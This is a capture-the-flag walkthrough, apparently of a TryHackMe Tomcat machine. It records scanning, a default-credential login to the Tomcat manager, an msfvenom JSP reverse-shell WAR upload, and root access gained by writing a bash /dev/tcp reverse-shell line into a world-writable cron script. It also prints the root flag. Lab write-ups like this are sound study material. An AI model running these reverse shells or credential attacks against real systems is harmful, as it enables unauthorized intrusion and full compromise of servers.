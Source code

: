 ## nmap

```
[parrot]─[16:50-01/07]─[/home/glack]
└╼glack$nmap -sV -sT -p 22,8009,8080 10.10.113.14
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:53 IST
Nmap scan report for 10.10.113.14
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds

```

Webserver is running on port 8080

## HTTP

Default installation of apache tomcat server 8.5.5

Feroxbuster returns few interesting resources

```
┌[parrot]─[16:54-01/07]─[/home/glack]
└╼glack$feroxbuster -u http://10.10.113.14:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -n -t 60
```

```
302        0l        0w        0c http://10.10.113.14:8080/docs
302        0l        0w        0c http://10.10.113.14:8080/examples
302        0l        0w        0c http://10.10.113.14:8080/manager

```


This one ask us for basic auth when trying to access

```
http://10.10.113.14:8080/manager
```

After trying some random creds we get an error when when cancelling the request.

However this error includes some creds 

```
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

It also says to examine this resource for some creds

```
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

As soon as we login using the above creds in 
http://10.10.113.14:8080/manager/html

we get in the webapp as 'tomcat'.

Here we can see that we are able to upload a .war file on the webserver.

## Gaining Access

Now when running the msfvenom payload command  i was getting an error which i was not able to troubleshoot

```
[parrot]─[16:53-01/07]─[/home/glack/Downloads/Postman/app]
└╼glack$msfvenom -l payloads
Calling `DidYouMean::SPELL_CHECKERS.merge!(error_name => spell_checker)' has been deprecated. Please call `DidYouMean.correct_error(error_name, spell_checker)' instead.
[*] Bundler failed to load and returned this error:

   'You have already activated timeout 0.4.0, but your Gemfile requires timeout 0.3.2. Prepending `bundle exec` to your command may solve this.'

[*] You may need to uninstall or upgrade bundler
```

Now to bypass this i ran all in msfvenom commands in the msfconsole and created a payload for the target webserver with below command

```
[msf](Jobs:0 Agents:0) >> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.17.24.189 LPORT=9999 -f war > /home/glack/Desktop/THM/revshell.war
```

Gave the file executable permissions
```
[parrot]─[17:24-01/07]─[/home/glack/Desktop/THM]
└╼glack$chmod +x revshell.war
```

And uploaded it on the webserver

Started a netcat listener

```
┌[parrot]─[17:24-01/07]─[/home/glack/Desktop/THM]
└╼glack$nc -lnvp 9999 
```

And it did't work, so i had come across this type of exploit also in the past when trying to exploit a HTB machine - 'Jerry', so i used the knowledge base i created then to see where i went wrong

Ok so [[5. Machines/HTB/To Work On/Jerry/2. foothold|2. foothold]] This explains the details i'll just get into it

Used this command to list the contents of war file

```
┌[parrot]─[17:33-01/07]─[/home/glack/Desktop/THM]
└╼glack$jar tf revshell.war
```

And upon visiting the path with the name of jsp filename

```
http://10.10.113.14:8080/revshell/fkngrkcpl.jsp
```

We get a shell on the netcat listener

and we get the userflag

## Priv Esc

Now in the jack's home directory we can see other files

```
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
```

This maybe a hint when trying to escalate privileges to root

and when checking the contents of both files we can see that 

```
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt

tomcat@ubuntu:/home/jack$ cat test.txt     
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

"id.sh" is a bash file the generates the output of command "id" and adds it to the file "test.txt"

But since the file is owned by Jack
```
tomcat@ubuntu:/home/jack$ ls -al | grep id  
ls -al | grep id
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh

```

This output of this command shall gives the "id" details of jack but here we can see that it gives the "id" of root account. 

This makes us suspicious that the "id.sh" file is running with root privileges.

We can confirm this suspicion when checking the contents of crontab using

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
```

This "id.sh" file was a crontab created to run with root privileges. This file  "id.sh" runs every
 minute.
 
```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

But we have write and execute permission for the "id.sh", that's not good configuration by the root. 

We can use this to escalate our privileges to the root user by changing the contents of "id.sh" using.

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.17.24.189/9991 0>&1" > id.sh
```

You can get a list  of reverse shell lists from here(https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)



And start a netcat listener of my local machine

```
┌[parrot]─[17:49-01/07]─[/home/glack/Desktop/shellgen]
└╼glack$nc -lnvp 9991
```

We wait for sometime and we get a root shell and the root flag

```
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@ubuntu:~# cat root.txt
cat root.txt
d89d5391984c0450a95497153ae7ca3a

```

